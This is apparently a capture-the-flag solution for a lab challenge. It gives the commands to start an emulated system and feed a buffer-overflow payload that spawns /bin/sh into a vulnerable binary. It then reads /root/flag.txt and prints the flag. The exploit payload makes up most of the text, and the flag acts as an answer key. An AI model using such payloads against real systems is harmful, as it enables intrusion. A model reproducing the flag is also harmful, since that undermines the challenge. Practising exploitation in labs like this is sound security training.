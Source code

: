 # Solution

This solution needs to be checked manually.

First start the challenge: `./run.sh`

Then from within the emulated system run the following command to exploit the target
```bash
(echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x13\xc6\xff\xf7(\
x80\x04\x08z\xc5\xff\xf7\x00\x00\x00\x00\x17\x00\x00\x00|\xc6\xff\xf7AAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00AAAAAAAAAAAAw\xc5\xff\xf7(\x80\
x04\x08\x00\x00\x00\x00\x0b\x00\x00\x00|\xc6\xff\xf7AAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAA \xdf\xff\xffAAAAAAAAAAAAz\xc5\xff\xf7\x00\x00\x00\x00(\xdf\xff\
xffw\xc5\xff\xf7/bin/sh\x00%\xdf\xff\xff\x00\x00\x00\x00'; cat) | ./target
```
then from within the exploited program get the flag with 
```bash
cat /root/flag.txt
HTB{Sm4sh1nG_Th3_V01d_F0r_Fun_4nd_Pr0f1t} 
```

